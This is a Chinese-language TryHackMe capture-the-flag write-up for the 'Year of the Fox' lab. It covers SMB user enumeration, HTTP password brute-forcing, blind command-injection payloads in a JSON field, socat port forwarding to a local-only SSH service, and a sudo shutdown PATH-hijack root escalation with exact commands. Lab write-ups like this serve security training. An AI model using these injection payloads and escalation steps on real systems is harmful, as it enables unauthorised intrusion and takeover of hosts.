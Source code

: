 ```yaml
---
sidebar_position: 166
tags: [Easy, Linux, 命令执行, 端口转发, SUDO]
title: "Year of the Fox"
description: "Year of the Fox"
sidebar_label: "Year of the Fox"
slug: /tryhackme/166
---
```


# Year of the Fox

![image-20240709201424720](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-201426.png)

## 端口扫描

```bash
root@ip-10-10-19-210:~/yotf# nmap -sTCV -p 80,139,445 --min-rate 1000 10.10.73.227

Starting Nmap 7.60 ( https://nmap.org ) at 2023-10-28 02:56 BST
Nmap scan report for ip-10-10-73-227.eu-west-1.compute.internal (10.10.73.227)
Host is up (0.00017s latency).

PORT    STATE SERVICE     VERSION
80/tcp  open  http        Apache httpd 2.4.29
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=You want in? Gotta guess the password!
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 401 Unauthorized
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: YEAROFTHEFOX)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: YEAROFTHEFOX)
MAC Address: 02:B5:2F:0F:B6:4D (Unknown)
Service Info: Hosts: year-of-the-fox.lan, YEAR-OF-THE-FOX

Host script results:
|_nbstat: NetBIOS name: YEAR-OF-THE-FOX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: year-of-the-fox
|   NetBIOS computer name: YEAR-OF-THE-FOX\x00
|   Domain name: lan
|   FQDN: year-of-the-fox.lan
|_  System time: 2023-10-28T02:56:37+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-10-28 02:56:37
|_  start_date: 1600-12-31 23:58:45

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.15 seconds
```

## 80

从端口扫描结果中我们可以看到401 需要进行认证操作 , 但是我们不知道用户名, 同时存在 SMB 服务所以我们可以使用工具 `enum4linux` 进行扫描, 从中可以扫描到两个用户:

```bash
S-1-22-1-1000 Unix User\fox (Local User)
S-1-22-1-1001 Unix User\rascal (Local User)
```

使用上面得到的用户名进行暴力破解我们可以得到一个凭证

![image-20240709201444562](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-201446.png)

之后进行登陆, 通过页面观察我们可以发现这是一个搜索页面, 同时搜索完成之后会给我们一些 文件的名称, 所以我猜测后端功能为列出某个目录的文件, 所以可能存在命令注入漏洞

![image-20240709201451854](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-201453.png)

使用 Burp 拦截进行一系列的测试, 从响应中我推断了一些内容:

- 基于下面的一系列的请求我判断可以使用 `` 来进行操作
- 从响应来看是命令注入盲注

```bash
"target":"${id}" --> ["Invalid Character"]
"target":";ls"   --> ["No file returned"]
"target":"`id`"  --> ["No file returned"]
"target":"`echo creds2.tx*`" --> ["creds2.txt"]
```

![image-20240709201500944](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-201502.png)

## 后渗透

## www-data

使用上面的命令注入漏洞来获取一个 reverse Shell

![image-20240709201515898](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-201517.png)

## www-data —> fox

在获取到 www-data 用户的 Shell 之后我本来想尝试重用 rascal 用户的凭证但是发现 `su` 、`ssh` 都已经被禁止, 我们无法使用, 所以我尝试端口转发来进行登陆

![image-20240709201523257](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-201524.png)

这里查看 `/etc/ssh/sshd_config` 在其中发现一些特殊内容

```bash
(remote) www-data@year-of-the-fox:/tmp$ cat /etc/ssh/sshd_config
....
ListenAddress 127.0.0.1
AllowUsers fox
....
```

这表明只有 fox 用户允许 SSH 登陆, 所以我们暴力破解也更加容易, 上传 socat 进行本地端口转发

```bash
(remote) www-data@year-of-the-fox:/tmp$ ./socat TCP4-LISTEN:4444,fork TCP4:127.0.0.1:22
```

![image-20240709201530467](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-201532.png)

之后进行 SSH 登陆即可

![image-20240709201538342](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-201539.png)

### fox —> root

登陆之后发现用户 fox 具有 SUDO 特权执行 shutdown 命令, 经过搜索可以发现这个利用方式

[Sudo Shutdown, Poweroff Privilege Escalation | Exploit Notes](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-shutdown-poweroff-privilege-escalation/)

```bash
fox@year-of-the-fox:~$ sudo -l
Matching Defaults entries for fox on year-of-the-fox:
    env_reset, mail_badpass

User fox may run the following commands on year-of-the-fox:
    (root) NOPASSWD: /usr/sbin/shutdown
fox@year-of-the-fox:~/samba$ echo /bin/bash > /tmp/poweroff
fox@year-of-the-fox:~/samba$ chmod +x /tmp/poweroff
fox@year-of-the-fox:~/samba$ export PATH=/tmp:$PATH
fox@year-of-the-fox:~/samba$ sudo -u root  /usr/sbin/shutdown
root@year-of-the-fox:~/samba# id
uid=0(root) gid=0(root) groups=0(root)
```

## Rabbit holes

### creads

我们在枚举中会发现两个 creads.txt 文件, 这些文件的解密规则为: base32-base64 但是解密之后什么用也没有